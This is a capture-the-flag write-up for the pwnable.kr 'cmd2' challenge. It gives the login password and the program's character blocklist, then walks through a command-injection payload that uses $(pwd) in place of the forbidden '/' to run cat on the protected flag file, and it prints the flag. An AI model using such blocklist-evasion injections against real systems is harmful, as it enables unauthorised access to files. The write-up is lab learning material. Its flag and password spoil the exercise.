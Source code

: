 # cmd2

1. Login into server with passwd: `mommy now I get what PATH environment is for :)`:
```
$ ssh cmd2@pwnable.kr -p2222
$ scp -P2222 cmd2@pwnable.kr:~/* .
```

We have to find a way to execute `/bin/cat/ /home/cmd1/flag` command.

As we cannot use any of these charecters:
```
	r += strstr(cmd, "=")!=0;
	r += strstr(cmd, "PATH")!=0;
	r += strstr(cmd, "export")!=0;
	r += strstr(cmd, "/")!=0;
	r += strstr(cmd, "`")!=0;
	r += strstr(cmd, "flag")!=0;
```
I used a hexadecimal code o ascii char `/` which is `0x2F` and created the following input:
```
$(echo -e "\x2Fbin\x2Fcat fla")g

./cmd2 '$(echo -e "\x2Fbin\x2Fcat fla")g'
```
It didn't work unfortunatelly do i found that `pwd` is available after cleaning all the env variables. I used `pwd` for `/` character, using that from `/` folder.

```
cmd2@prowl:~$ ./cmd2 'cd .. && cd .. && $(pwd)bin$(pwd)cat $(pwd)home$(pwd)cmd2$(pwd)fla* && cd --'
cd .. && cd .. && $(pwd)bin$(pwd)cat $(pwd)home$(pwd)cmd2$(pwd)fla* && cd --
FuN_w1th_5h3ll_v4riabl3s_haha
```

```
FLAG: {FuN_w1th_5h3ll_v4riabl3s_haha}
```